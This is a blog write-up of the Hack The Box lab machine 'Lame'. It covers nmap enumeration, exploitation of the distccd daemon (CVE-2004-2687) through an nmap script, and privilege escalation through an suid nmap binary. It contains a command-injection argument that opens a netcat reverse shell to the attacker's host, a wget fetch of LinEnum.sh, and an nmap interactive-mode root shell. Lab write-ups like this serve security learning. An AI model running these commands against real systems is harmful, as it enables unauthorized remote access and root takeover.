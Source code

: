 ```yaml
---
id: 261
title: 'Hackthebox &#8211; Lame'
date: '2020-02-27T08:32:49+00:00'
author: vedanttare
excerpt: 'In this post, we are going to be pwning "Lame" from Hackthebox.'
layout: post
guid: 'https://codesupply.co/pellentesque-porttitor-nec-amet/'
permalink: /hackthebox-lame/
csco_singular_sidebar:
    - right
csco_page_header_type:
    - large
csco_page_load_nextpost:
    - default
csco_layout_in_loop:
    - default
csco_post_video_location:
    - 'a:2:{i:0;s:12:"large-header";i:1;s:7:"archive";}'
csco_post_video_url:
    - ''
csco_post_video_bg_start_time:
    - '0'
csco_post_video_bg_end_time:
    - '0'
csco_appearance_grid:
    - default
csco_post_video_location_hash:
    - ''
csco_post_text_color:
    - '#ffffff'
powerkit_share_buttons_transient_facebook:
    - '1692134035'
powerkit_share_buttons_transient_pinterest:
    - '1727941290'
image: 'http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2022-09-25-at-2.29.25-PM-496x305.png'
categories:
    - Writeups
tags:
    - technology
---
```


![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2022-09-25-at-2.29.25-PM.png)

**Three phases:**

- **Enumeration**
- **Exploitation**
- **Privilege Escalation**

### Enumeration

Let’s start by doing an nmap scan of the machine:

`nmap -sC -sV -O -oA nmap/lame1000 10.10.10.3`

Output:

![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2021-09-05-at-1.34.32-PM.png)

As we can see that we have the following ports open:

- **21/ftp – vsftpd 2.3.4**
- **22/ssh – OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)**
- **139, 445/smb – netbios-ssn**

The ports of our interest are the 21/ftp and 139, 445/smb ports.

After logging into the ftp server using creds: anonymous/anything (TIP: when anonymous login is allowed, you can use username as anonymous and any password, even a blank password would work), we could find anything that interesting so let’s move on to the next endpoint.

Researching about smb ports of 139 and 445 and their service versions for some vulnerabilities, we couldn’t find anything there either.

Now, doing a full port scan to check for more open ports:

`nmap -sC -sV -p- -oA nmap/lamefull 10.10.10.3`

![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2021-09-05-at-1.50.51-PM.png)

As we can see above, that there is another port open: 3432/disccd

Researching about this port we find out that the service distccd is used for faster compilation, where if a machine is sitting idle, then code from one machine can be sent to it and hence it will compile the code for you, only if this service is present on both hosts.

We could find nmap scripts which would scan for vulnerabilities for this service and we got the following results:

`nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3`

![](http://vedanttare.com/wp-content/uploads/2020/02/Screenshot-2021-09-05-at-4.29.55-PM.png)

As we can see from the image above, that the distccd service is vulnerable to daemon command execution.

### Exploitation

Using the nmap script to run commands:

`nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.7 4444 -e /bin/bash'"`

And setting up a listener on our kali machine to get back a reverse shell:

sudo nc -nlvp 4444

Hence, we get back a reverse shell as user daemon.

### Privilege Escalation

Now transferring over LinEnum.sh to check for malicious information:

`wget http://10.10.14.7/LinEnum.sh`

Running LinEnum.sh we find that the nmap binary has suid enabled. Hence, we can use it to escalate our privileges to root using nmap’s interactive mode to spawn a bash shell!

`sudo nmap --interactive`

`>!sh`

Therefore, we are root!

Check out my previous post:

<figure class="wp-block-embed is-type-wp-embed is-provider-vedant-tare wp-block-embed-vedant-tare"><div class="wp-block-embed__wrapper">> [Hackthebox – Poison](https://vedanttare.com/hackthebox-poison/)

<iframe class="wp-embedded-content" data-secret="TNSIb5Z1Dn" frameborder="0" height="338" marginheight="0" marginwidth="0" sandbox="allow-scripts" scrolling="no" security="restricted" src="https://vedanttare.com/hackthebox-poison/embed/#?secret=JH3MaSn6Y1#?secret=TNSIb5Z1Dn" style="position: absolute; clip: rect(1px, 1px, 1px, 1px);" title="“Hackthebox – Poison” — VEDANT TARE" width="600"></iframe></div></figure>